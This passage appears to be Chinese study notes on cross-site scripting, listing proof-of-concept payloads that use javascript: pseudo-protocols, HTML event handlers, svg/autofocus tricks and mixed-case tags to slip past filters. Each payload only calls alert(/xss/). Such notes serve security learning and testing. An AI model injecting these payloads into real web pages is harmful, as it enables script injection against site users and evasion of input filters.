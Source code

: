 * **没有任何过滤**机制时使用

#### (2).伪协议

* 使用**javascript:**等伪协议构造XSS

* 支持的标签：**src**、**href**、background等

  ```html
  <a href="javascript:alert(/xss/)">touch me!</a>
  <img src="javascript:alert(/xss/)"></img>		//仅在IE6下成功
  ```

#### (3).事件利用

* 可以利用html中某些**动作时间**，绑定**恶意脚本**

* 常见事件类型

  | window事件   | 对window对象触发的事件         |
  | ------------ | ------------------------------ |
  | Form事件     | HTML表单内的动作触发事件       |
  | Keyboard事件 | 键盘按键                       |
  | Mouse事件    | 由鼠标或类似用户动作触发的事件 |
  | Media事件    | 由多媒体触发的事件             |

  ```html
  <img src='./smile.jpg' onmouseover='alert(/xss/)' />
  <input type="text" onkeydown="alert(/xss/)" />
  <input type="text" onkeyup="alert(/xss/)" />
  <input type="button" onclick="alert(/xss/)" />
  <img src='#' onerror='alert(/xss/)' />
  ```

#### (4).利用CSS触发(已过时)

#### (5)其他标签及手法

* 随着前端语言的更新速度，会有**新的标签和事件**出现

  ```html
  <svg onload="alert(/xss/)" >	//svg是h5语言中的标签
  <input onfocus=alert(/xss/) autofocus >	//自动触发
  ```

### 3. XSS变形

#### (1)大小写转换

* 将payload进行大小写转化

  ```html
  <img sRc='#' OnError="alert(/xss/)">
  <a hREf='JaVaScriPt:alert(/xss/)'>click me</a>
  ```
